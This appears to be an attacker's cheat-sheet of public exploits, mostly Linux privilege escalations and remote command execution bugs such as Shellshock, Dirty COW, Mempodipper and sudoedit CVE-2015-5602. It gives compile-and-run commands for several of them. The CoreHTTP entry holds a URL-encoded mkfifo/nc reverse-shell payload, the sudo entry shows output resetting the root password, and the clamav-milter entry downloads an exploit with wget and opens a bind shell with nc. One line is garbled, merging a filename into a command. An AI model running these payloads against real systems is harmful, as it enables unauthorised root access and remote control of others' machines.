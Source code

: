 ------------------------------------------------------

- 34896.py

# Exploit Title:  Shellshock SMTP Exploit
# Date: 10/3/2014
# Exploit Author: fattymcwopr
# Vendor Homepage: gnu.org
# Software Link: http://ftp.gnu.org/gnu/bash/
# Version: 4.2.x < 4.2.48
# Tested on: Debian 7 (postfix smtp server w/procmail)
# CVE : 2014-6271

------------------------------------------------------

- 35513.py

# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution

------------------------------------------------------

- 35161.c
Linux Local Priv Esc
CVE-2012-0056
Exploit code is here: http://git.zx2c4.com/CVE-2012-0056/plain/mempodipper.c
Blog post about it is here: http://blog.zx2c4.com/749

------------------------------------------------------

- ossec.py
# Exploit Title: ossec 2.8 Insecure Temporary File Creation Vulnerability Privilege Escalation
# Date: 14-11-14
# Exploit Author: skynet-13
# Vendor Homepage: www.ossec.net/
# Software Link: https://github.com/ossec/ossec-hids/archive/2.8.1.tar.gz
# Version: OSSEC  - 2.8
# Tested on: Ubunutu x86_64
# CVE : 2014-5284

------------------------------------------------------

-linux-sendpage.csudoedit /home/user/test/test.ser
 * Linux kernel versions from 2.4.4 to 2.4.37.4, and from 2.6.0 to 2.6.30.4
 * are vulnerable.
 * For i386 and ppc, compile with the following command:
 * gcc -Wall -o linux-sendpage linux-sendpage.c
 *
 * And for x86_64 and ppc64:
 * gcc -Wall -m64 -o linux-sendpage linux-sendpage.c

------------------------------------------------------

-dirty.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)

gcc -pthread dirty.c -o dirty -lcrypt
./dirty

------------------------------------------------------

-corehttp_exploit.py
CoreHTTP 0.5.3.1 - 'CGI' Arbitrary Command Execution
https://github.com/cyb3rdan/corehttp_exploit/blob/master/corehttp_exploit.py

[URL]/foo.pl?%60[command-here]%60

/foo.pl?`rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/bash%20-i%202%3E&1|nc%20192.168.1.1%2080%20%3E/tmp/f`

------------------------------------------------------

-cve-2017-16995.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
https://www.exploit-db.com/exploits/45010
gcc cve-2017-16995.c -o cve-2017-16995
./cve-2017-16995

------------------------------------------------------

https://github.com/t0kx/privesc-CVE-2015-5602 - Sudo <=1.8.14 Local Privilege Escalation - exploit.sh

user@test tmp]$ sudo -l
sudo -l
Matching Defaults entries for user on test:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="QTDIR
    KDEDIR"

User user may run the following commands on test:
    (root) NOPASSWD: sudoedit /home/*/*/test.ser

[user@test tmp]$ ./exploit.sh
./exploit.sh
[+] CVE-2015-5602 exploit by t0kx
[+] Creating folder...
[+] Creating symlink
[+] Modify EDITOR...
[+] Change root password to: e7ccbd117813eee6060129d6f8c76ecb
[+] Done
[user@test tmp]$ su root
su root
Password: e7ccbd117813eee6060129d6f8c76ecb

------------------------------------------------------

Sendmail with clamav-milter < 0.91.2 - Remote Command Execution
https://www.exploit-db.com/exploits/4761

$ wget https://www.exploit-db.com/raw/4761
$ mv 4761 black-hole.pl
$ perl black-hole.pl 192.168.1.2
$ nc -v 192.168.1.2 31337

------------------------------------------------------